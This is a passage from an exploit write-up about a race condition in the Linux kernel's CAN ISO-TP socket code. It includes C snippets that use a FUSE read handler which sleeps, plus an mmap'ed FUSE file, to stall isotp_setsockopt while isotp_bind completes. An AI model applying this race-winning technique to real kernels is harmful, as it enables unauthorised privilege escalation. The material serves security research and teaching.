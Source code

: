 ```c
        if (offset < len) {
                if (offset + size > len)
                        size = len - offset;
                memcpy(buf, &opts + offset, size);
        } else {
                size = 0;
        }

        return size;
}
```

In this case, any read associated with the hello filesystem will be redirected to `hello_read()`.
Inside `hello_read()`, we `sleep()` for 2 seconds, effectively halting the kernel execution at
`copy_from_sockptr()` in `isotp_setsockopt()`.
```c
	if (copy_from_sockptr(&so->opt, optval, optlen))
		return -EFAULT;
```

In the meanwhile, `isotp_bind()` will finish and bind the socket, finally setting ``so->bound`` to ``1``.
Then, we proceed with copying flags containing ``CAN_ISOTP_SF_BROADCAST`` to the kernel space.

```c
void setup_fusefs(void)
{
        fuse_fd = open("mnt/hello", O_RDWR);				       	   [1]
        if (fuse_fd < 0)
                die("failed to open fuse fd");

        fuse_map = mmap(NULL, sizeof(struct can_isotp_options),
				PROT_READ | PROT_WRITE, MAP_SHARED, fuse_fd, 0);   [2]

        if (fuse_map == MAP_FAILED)
                die("failed to map with fuse fs");
}
```

In my exploit, I get a fd of the filesystem ``[1]`` and mmap memory ``[2]`` similarly to userfault.
This `mmap()` will be associated with the previously opened ``fuse_fd``. As already mentioned,
any copy from the kernel space from this mmap'ed memory will be handled by `hello_read()`.

At this point, we have a properly set up FUSE filesystem which will help us to reliably win the race
condition between `isotp_setsockopt()` and `isotp_bind()`.

How does the **controlled** race condition scenario look like?

- `isotp_setsockopt()` is called on an unbound socket.
	- `copy_from_sockptr()` wants to copy `struct can_isotp_options` from the user space
	- `hello_read()` is called and goes to `sleep()` for 2 seconds, kernel execution is now halted!

- while we are in `setsockopt()`, we **now call** `isotp_bind()`
	- ``CAN_ISOTP_SF_BROADCAST`` flag is **not** set, so a CAN receiver will be registered
	- return from `isotp_bind()`, the socket is now successfully bound
